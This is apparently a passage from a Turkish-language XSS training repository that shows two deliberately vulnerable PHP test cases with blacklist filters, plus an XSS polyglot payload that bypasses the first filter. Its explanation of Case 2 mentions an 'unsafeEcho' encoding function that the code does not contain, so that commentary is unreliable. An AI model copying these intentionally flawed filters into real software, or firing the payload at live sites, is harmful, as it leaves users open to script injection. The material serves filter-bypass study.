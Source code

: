### Test Case 2

```php
<?php
  $userInput = isset($_GET['input']) ? $_GET['input'] : '';

  function filter2($input) {
    $filtered = preg_replace('/<script\b[^>]*>(.*?)<\/script>/is', "", $input);
    $filtered = preg_replace('/on\w+\s*=\s*"(?:.|\n)*?"/i', '', $filtered);
    $filtered = preg_replace('/data:\s*[^\s]*?base64[^\s]*/i', '', $filtered);
    $filtered = str_replace(['javascript:', 'expression('], '', $filtered);
    $filtered = str_replace(['iframe', 'eval', 'onclick', 'onmouseover', 'img', 'textarea', 'onclick',  'onmouseout', 'ondblclick'], '', $filtered);
    return $filtered;
  }
    echo "<script>var str =\" " .  filter2($userInput) . "\";</script>";
?>
```

**Filtreleme:** filter fonksiyonu, `onmouseover` ve `textarea` gibi ek XSS vektörlerini de kaldırır. Ayrıca, unsafeEcho fonksiyonu ile çıktı HTML özel karakterleri encode edilir.

**Zaafiyet:** Bu örnekte diğer örnekten farklı olarak `onload` gibi vektörler yeterince filtrelemeyebilir.

**Yukarıdaki kodu bypass edecek bir payload**

```html
javascript:/*"/*`/*'/*\"/*</script></style></template></select></title></textarea></noscript></noembed><<svg/*/ onload=alert()//>
```

### Test Case 3

```php
<?php
  $userInput = isset($_GET['input']) ? $_GET['input'] : '';

  function filter3($input) {
    $filtered = preg_replace('/<script\b[^>]*>(.*?)<\/script>/is', "", $input);
    $filtered = preg_replace('/on\w+\s*=\s*"(?:.|\n)*?"/i', '', $filtered);
    $filtered = preg_replace('/data:\s*[^\s]*?base64[^\s]*/i', '', $filtered);
    $filtered = str_replace(['expression('], '', $filtered);
    $filtered = str_replace(['iframe', 'eval', 'onload', 'onmouseover', 'onmouseout', 'ondblclick', 'onclick'], '', $filtered);
    return $filtered;
  }
  echo "<input type='text' placeholder='input a text' value='" . filter3($userInput) . "'>";
?>
```

**Filtreleme:** filter fonksiyonu, `onload` ve `onmouseover` gibi ek XSS vektörlerini de kaldırır. Ancak, hala bazı zafiyetler bulundurmaktadır.

**Zaafiyet:** Bu fonksiyon, belirli URI şemalarını (örneğin javascript:) ve HTML etiketlerini filtrelerken yeterince kapsamlı olmayabilir.
